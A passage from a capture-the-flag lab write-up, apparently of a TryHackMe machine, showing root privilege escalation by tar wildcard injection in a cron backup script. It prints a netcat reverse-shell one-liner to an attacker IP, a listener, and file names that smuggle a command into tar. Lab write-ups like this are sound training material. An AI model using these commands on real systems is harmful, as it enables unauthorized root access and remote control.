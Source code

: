 ![img](crontab.png)

Yeah! It does have some in the cron job here. Now, try to read the content of the backup.sh file

```bash
$ cat /home/milesdyson/backups/backup.sh
```

![img](backupsh.png)

Looks like it is a script which will archive all the contents inside the directory **/var/www/html** and stores it in **/home/milesdyson/backups** and named as **backup.tgz**. When reading the file carefully, we can try to create a reverse shell script here where for every minute, it will be archived then able to run as root privilege. For better understanding, you can read [here](https://www.helpnetsecurity.com/2014/06/27/exploiting-wildcards-on-linux/?ref=blog.tryhackme.com).
```bash
$ cd /var/www/html

$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc <ATTACKER-IP> 1234 >/tmp/f" > shell.sh
```

Make sure to run another netcat:
```bash
$ nc -lvnp 1234
```

Now, proceed with the exploit to get root.
```
$ touch "/var/www/html/--checkpoint-action=exec=sh shell.sh"

$ touch "/var/www/html/--checkpoint=1"
```
